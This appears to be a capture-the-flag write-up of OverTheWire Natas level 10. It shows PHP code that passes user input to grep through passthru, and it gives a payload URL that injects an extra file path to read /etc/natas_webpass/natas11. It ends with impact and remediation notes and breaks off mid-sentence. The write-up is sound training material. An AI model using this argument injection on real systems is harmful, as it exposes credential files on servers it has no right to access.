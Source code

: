 # [Over The Wire (natas)] – [[Platform](http://natas10.natas.labs.overthewire.org/)] – [09/22/2025]

## Objective
Find the password for the next Natas level by exploiting the vulnerability on this page.  

## Environment / Platform
- Platform: OverTheWire – Natas
- Level: [10]
- Difficulty: [Easy]

## Tools Used
- Chromium Browser

## Login
1. Logged in with credentials:
   - **Username**: `natas10`
   - **Password**: `XXXXXX`
  
2. Screenshot:
   ![alt text](image-9.png)
   
   - this prompted that I should check the sourcecode by clicking the link `http://natas10.natas.labs.overthewire.org/index-source.html`

3. Observed Page Content:
   ``` html
   <pre>
      <?
      $key = "";

      if(array_key_exists("needle", $_REQUEST)) {
         $key = $_REQUEST["needle"];
      }

      if($key != "") {
         if(preg_match('/[;|&]/',$key)) {
            print "Input contains an illegal character!";
         } else {
            passthru("grep -i $key dictionary.txt");
         }
      }
      ?>
   </pre>

   ```
4. Steps Taken
   1. This indicates that the command injection wouldn't be the best approach, instead maybe still exploiting the grep logic.
   2. I can make the key value into "catchall" using `.*` and it worked.

```
.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10/.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
dictionary.txt:African
dictionary.txt:Africans
dictionary.txt:Allah
dictionary.txt:Allah's
dictionary.txt:American
dictionary.txt:Americanism
dictionary.txt:Americanism's
dictionary.txt:Americanisms
dictionary.txt:Americans
dictionary.txt:April
dictionary.txt:April's
dictionary.txt:Aprils
dictionary.txt:Asian
dictionary.txt:Asians
dictionary.txt:August
dictionary.txt:August's
dictionary.txt:Augusts
dictionary.txt:B
dictionary.txt:B's
dictionary.txt:British
dictionary.txt:Britisher
dictionary.txt:Brown
dictionary.txt:Brown's
dictionary.txt:C
dictionary.txt:C's
dictionary.txt:Catholic
dictionary.txt:Catholicism
```
   3. I then explored including a second file to check altering the param value and swapping space with `%20`. `http://natas10.natas.labs.overthewire.org/?needle=.*%20/etc/natas_webpass/natas11&submit=Search`

```.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10/.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
/etc/natas_webpass/natas11:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
dictionary.txt:African
dictionary.txt:Africans
dictionary.txt:Allah
dictionary.txt:Allah's
dictionary.txt:American
dictionary.txt:Americanism
dictionary.txt:Americanism's
dictionary.txt:Americanisms
dictionary.txt:Americans
dictionary.txt:April
dictionary.txt:April's
dictionary.txt:Aprils
dictionary.txt:Asian
dictionary.txt:Asians
dictionary.txt:August
dictionary.txt:August's
dictionary.txt:Augusts
dictionary.txt:B
dictionary.txt:B's
dictionary.txt:British
dictionary.txt:Britisher
dictionary.txt:Brown
dictionary.txt:Brown's
dictionary.txt:C
dictionary.txt:C's
dictionary.txt:Catholic
```

   4. This returned the flag we were looking for.

---

🔑 Why this works: 

The application filters out the characters ;, |, and & to prevent direct command injection, but it still passes user input directly into grep:

   - grep interprets regular expressions, so input like .* acts as a wildcard matching any line.

   - By including another file path (e.g., /etc/natas_webpass/natas11) in the input and replacing spaces with %20, the shell executes grep -i '.* /etc/natas_webpass/natas11' dictionary.txt.

   - grep reads both dictionary.txt and the specified file, printing any lines that match the regex. This reveals the contents of the target file (natas11 password) without needing full command injection.


---

💥 **Impact**

   - **Sensitive Data Disclosure**: Any file readable by the web server can be exposed, including password files or configuration files.

   - **Bypass of Security Filters**: Even with shell injection filtered, the application still allows reading arbitrary files.

   - **Server Information Leakage**: Knowledge of file locations and contents can aid further attacks.

---
  
🛠️ **Remediation**


   1. Avoid Passing Unsanitized Input to Shell Commands:

      - Replace passthru() with safer alternatives like file(), fopen(), or PHP regex functions (preg_grep()).

   2. Validate and Sanitize Input Strictly:

      - Only allow known, safe keywords for searching (whitelist), e.g., a list of dictionary words.

      - Reject arbitrary regex or file paths.

   3. Limit File Access:

      - Ensure the web server user cannot read sensitive files like /etc/natas_webpass/*.

      - Store passwords outside the web-accessible directory.

   4. Escape or Quote Input if Shell Execution is Required:

      - Use escapeshellarg() to safely wrap user input:
